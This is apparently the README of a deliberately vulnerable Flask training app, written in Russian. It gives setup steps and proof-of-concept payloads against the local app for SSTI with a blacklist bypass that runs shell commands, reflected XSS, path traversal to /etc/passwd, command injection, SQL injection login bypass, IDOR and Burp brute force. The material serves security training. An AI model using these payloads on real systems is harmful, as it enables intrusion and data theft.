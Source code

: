 # vuln-app
#Уязвимая версия приложения

### Инструкция по сборке и запуску приложения

> - git clone "текущий репозиторий"
> - cd app
> - pip install -r requirements.txt
> - python __init__.py
> - flask приложение будет запущено по адресу http://127.0.0.1:8089

![image](https://github.com/medarov411/vuln-app/assets/60567375/302c807a-5503-411e-a291-bbe552f247ec)



### Proof of Concept

SSTI:

> url - http://127.0.0.1:8089/contact. Контактная форма, с одним полем ввода.

> Настроил блеклист для ssti, чтоб пейлоад был поинтересней. blacklist = [".","[","]","_","join","init","flag"]

> Конечный пейлоад: {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}

> ![image](https://github.com/medarov411/vuln-app/assets/60567375/0635d79b-576c-4515-8675-169c49209763)

<p>&nbsp;</p>

XSS(reflected):
> xss эксплуатируется там же, где и ssti - http://127.0.0.1:8089/contact

> http://127.0.0.1:8089/contact?email=<script>alert(1)</script>

> ![image](https://github.com/medarov411/vuln-app/assets/60567375/0b6d6749-0813-4635-aaf4-69384d24f5f8)

<p>&nbsp;</p>

Path Traversal:
> кнопка Read Policy на главной странице "http://127.0.0.1:8089/" ведет на url "http://127.0.0.1:8089/view_file?filename=15020.pdf"

> пейлоад:http://127.0.0.1:8089/view_file?filename=../../../../../etc/passwd

> ![image](https://github.com/medarov411/vuln-app/assets/60567375/2b8cf974-f629-443f-b30c-5925e08defb1)

<p>&nbsp;</p>

OS Command injection:
> на сайте реализовано подобие ping сервиса. Url - http://127.0.0.1:8089/ping

>пейлоад: 127.0.0.1;ls

>![image](https://github.com/medarov411/vuln-app/assets/60567375/303665c2-83d6-41ba-8fd2-5706ad0efa01)

<p>&nbsp;</p>

SQLI:
> форма авторизации в админ панель подвержена sql инъекциям. url - http://127.0.0.1:8089/login

>в базе данных есть два юзера - admin:jasper, wiener:password

>При успешной авторизации, происходит редирект на /admin-panel?user={username}
>![image](https://github.com/medarov411/vuln-app/assets/60567375/6e520b0f-355b-4377-8839-0b1740a8bcf7)
P.S не обращайте внимания, что там написано IDOR. Эта админ панель далее будет использована в демонстрации IDOR уязвимости.

>При не правильных данных: Login Failed
>![image](https://github.com/medarov411/vuln-app/assets/60567375/486498d8-1a5b-4fa2-a2de-7922159825b4)

>пейлоад: admin' or 1=1--

<p>&nbsp;</p>

IDOR:
> idor связан с админ панелью. У нас есть второй юзер wiener. Но когда он авторизовывается, то доступ у него закрыт к админ панели.
![image](https://github.com/medarov411/vuln-app/assets/60567375/ae45a797-1f04-4299-a1d0-a2633404bbcb)

> Но если изменить параметр user в /admin-panel?user=wiener на /admin-panel?user=admin, то доступ появляется
 

<p>&nbsp;</p>

Brute force:
> Для брута можно использовать burp. Словарь - rockyou.txt

>![image](https://github.com/medarov411/vuln-app/assets/60567375/be06ebe7-1db1-436a-9069-f09a9937d251)

>![image](https://github.com/medarov411/vuln-app/assets/60567375/515c7912-989a-47ef-b6d9-44166251d764)

>Ставим grep match на слово success
![image](https://github.com/medarov411/vuln-app/assets/60567375/f8965f7f-30d4-42d9-ba5e-b4b79b409d34)
![image](https://github.com/medarov411/vuln-app/assets/60567375/984ac396-4fa6-48d3-8c47-c81b392be400)


### Дополнительные комментарии
> От себя решил добавить SSTI с фильтрацией, все таки это flask. Не добавить в него ssti, было бы неуважительно :)

